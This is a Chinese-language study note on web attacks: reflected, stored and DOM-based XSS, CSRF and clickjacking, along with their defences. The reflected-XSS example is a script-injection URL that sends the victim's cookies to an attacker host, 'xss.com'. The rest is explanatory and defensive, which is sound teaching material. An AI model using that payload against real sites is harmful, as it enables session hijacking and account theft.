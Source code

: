 [from](https://juejin.cn/post/6844903504369172494#heading-20)

# XSS 跨站脚本攻击



1. Reflected XSS（基于反射的XSS攻击）
   主要通过利用系统反馈行为漏洞，并欺骗用户主动触发，从而发起Web攻击。

   ```html
   http://you.163.com/search?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie</script>
   ```



   如果受骗的用户刚好已经登录过该网站，那么，用户的登录cookie信息就已经发到了攻击者的服务器（*xss.com*）了。当然，攻击者会做一些更过分的操作。



2. Stored XSS（基于存储的XSS攻击）

   Stored XSS和Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

   ```你好！当你看到这段文字时，你的信息已经不安全了！<script>alert('xss')</script>```

   > tips：文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。
   > 此为题多从在于博客网站。



3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

   DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

   document.referer属性
   window.name属性
   location属性
   innerHTML属性
   documen.write属性
   ······

对于一切用户的输入、输出、客户端的输出内容视为不可信，在数据添加到DOM或者执行了DOM API的时候，我们需要对内容进行HtmlEncode或JavaScriptEncode，以预防XSS攻击。 https://www.cnblogs.com/lovesong/p/5211667.html



# CSRF 跨站请求伪造

> 跨站请求伪造 CSRF（Cross-site request forgery），也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。与XSS攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比XSS更具危险性。但往往同XSS一同作案！

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。



1. 验证 HTTP Referer 字段；

   利用HTTP头中的Referer判断请求来源是否合法。

   优点：简单易行，只需要在最后给所有安全敏感的请求统一增加一个拦截器来检查 Referer 的值就可以。特别是对于当前现有的系统，不需要改变当前系统的任何已有代码和逻辑，没有风险，非常便捷。

   缺点：
   1、Referer 的值是由浏览器提供的，不可全信，低版本浏览器下Referer存在伪造风险。
   2、用户自己可以设置浏览器使其在发送请求时不再提供 Referer时，网站将拒绝合法用户的访问。



2. 在请求地址中添加 token 并验证；

   在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中，以HTTP请求参数的形式加入一个随机产生的 token交由服务端验证

   优点：比检查 Referer 要安全一些，并且不涉及用户隐私。
   缺点：对所有请求都添加token比较困难，难以保证 token 本身的安全，依然会被利用获取到token



3. 在 HTTP 头中自定义属性并验证

   将token放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 的异步请求交由后端校验，并且一次有效。

   优点：统一管理token输入输出，可以保证token的安全性
   缺点：有局限性，无法在非异步的请求上实施

# 点击劫持

 	点击劫持，英文名clickjacking，也叫UI覆盖攻击，攻击者会利用一个或多个透明或不透明的层来诱骗用户支持点击按钮的操作，而实际的点击确实用户看不到的一个按钮，从而达到在用户不知情的情况下实施攻击。



防止点击劫持有两种主要方法：

### X-FRAME-OPTIONS

X-FRAME-OPTIONS是微软提出的一个http头，指示浏览器不允许从其他域进行取景，专门用来防御利用iframe嵌套的点击劫持攻击。并且在IE8、Firefox3.6、Chrome4以上的版本均能很好的支持。
这个头有三个值：
DENY // 拒绝任何域加载
SAMEORIGIN // 允许同源域下加载
ALLOW-FROM // 可以定义允许frame加载的页面地址

### 顶层判断

在UI中采用防御性代码，以确保当前帧是最顶层的窗口
方法有多中，如

```
top != self || top.location != self.location || top.location != location复制代码
```

有关Clickjacking防御的更多信息，请参阅[Clickjacking Defense Cheat Sheet](https://www.owasp.org/index.php/Clickjacking_Defense_Cheat_Sheet).